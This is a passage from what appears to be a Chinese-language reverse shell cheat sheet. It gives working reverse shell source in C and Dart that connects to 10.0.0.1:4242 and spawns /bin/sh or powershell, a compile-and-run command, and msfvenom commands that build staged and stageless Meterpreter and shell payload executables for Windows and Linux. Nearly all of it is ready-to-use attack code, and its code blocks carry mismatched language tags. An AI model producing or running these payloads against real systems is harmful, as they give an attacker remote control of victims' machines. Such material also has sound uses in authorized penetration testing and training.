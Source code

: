 ### C

 编译 `gcc /tmp/shell.c --output csh && csh`

```csharp
#include <stdio.h>#include <sys/socket.h>#include <sys/types.h>#include <stdlib.h>#include <unistd.h>#include <netinet/in.h>#include <arpa/inet.h>int main(void){    int port = 4242;    struct sockaddr_in revsockaddr;    int sockt = socket(AF_INET, SOCK_STREAM, 0);    revsockaddr.sin_family = AF_INET;           revsockaddr.sin_port = htons(port);    revsockaddr.sin_addr.s_addr = inet_addr("10.0.0.1");    connect(sockt, (struct sockaddr *) &revsockaddr,     sizeof(revsockaddr));    dup2(sockt, 0);    dup2(sockt, 1);    dup2(sockt, 2);    char * const argv[] = {"/bin/sh", NULL};    execve("/bin/sh", argv, NULL);    return 0;       }
```

### Dart

```java
import 'dart:io';import 'dart:convert';main() {  Socket.connect("10.0.0.1", 4242).then((socket) {    socket.listen((data) {      Process.start('powershell.exe', []).then((Process process) {        process.stdin.writeln(new String.fromCharCodes(data).trim());        process.stdout          .transform(utf8.decoder)          .listen((output) { socket.write(output); });      });    },    onDone: () {      socket.destroy();    });  });}
```

## RevShells

https://www.revshells.com/

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/revshells.png)

## Meterpreter Shell

### Windows Staged reverse TCP

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```

### Windows Stageless reverse TCP

```powershell
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```

### Linux Staged reverse TCP

```powershell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```

### Linux Stageless reverse TCP

```powershell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```
